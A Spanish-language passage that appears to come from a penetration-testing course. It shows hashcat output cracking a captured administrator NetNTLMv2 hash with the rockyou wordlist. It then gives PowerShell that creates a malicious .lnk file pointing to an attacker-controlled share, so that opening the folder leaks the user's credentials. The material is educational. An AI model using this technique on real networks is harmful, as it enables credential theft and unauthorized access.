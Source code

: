 ```shell-session
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1233.7 kH/s (2.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: holabebe -> harder

Started: Thu May 27 19:16:16 2021
Stopped: Thu May 27 19:16:20 2021
```

Nota: En nuestro ejemplo, espere de 2 a 5 minutos para que el "usuario" explore la participación después de comenzar el respondedor.

---

## Capturar hashes con un archivo .lnk malicioso

El uso de SCF ya no funciona en los hosts del servidor 2019, pero podemos lograr el mismo efecto utilizando un malicioso[.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)archivo. Podemos usar varias herramientas para generar un archivo .lnk malicioso, como[Lnkbomb](https://github.com/dievus/lnkbomb), ya que no es tan sencillo como crear un archivo .scf malicioso. También podemos hacer uno usando algunas líneas de PowerShell:

#### Generando un archivo .lnk malicioso

  Interactuar con los usuarios

```powershell-session

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

Pruebe esta técnica en el host de destino para familiarizarse con la metodología y agregue otra táctica a su arsenal para cuando se encuentre con entornos donde prevalece el servidor 2019.